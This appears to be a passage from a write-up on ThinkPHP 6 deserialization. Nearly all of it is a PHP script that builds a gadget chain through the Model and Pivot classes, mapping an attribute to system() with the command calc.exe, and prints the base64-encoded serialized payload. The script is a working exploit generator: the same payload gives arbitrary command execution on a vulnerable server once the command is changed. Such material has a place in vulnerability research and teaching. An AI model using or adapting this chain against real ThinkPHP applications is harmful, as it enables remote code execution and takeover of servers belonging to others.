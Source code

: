 ```php
<?php
namespace think;
abstract class Model{
    use model\concern\Attribute;
    use model\concern\ModelEvent;
    protected $table;
    private $force;
    private $exists;
    private $lazySave;
    private $data = [];
    function __construct($obj){
        $this->table = $obj;
        $this->force = true;
        $this->exists = true;
        $this->lazySave = true;
        $this->data = ["H3rmesk1t" => "calc.exe"];
    }
}

namespace think\model\concern;
trait ModelEvent{
    protected $withEvent = true;
    protected $visible = ["H3rmesk1t" => "1"];
}
trait Attribute{
    private $withAttr = ["H3rmesk1t" => "system"];
}

namespace think\model;
use think\Model;
class Pivot extends Model{
    function __construct($obj = ''){
        parent::__construct($obj);
    }
}

echo base64_encode(serialize(new Pivot(new Pivot())));
?>
```
<img src="./images/tp6-pop-1-14.png" alt="">
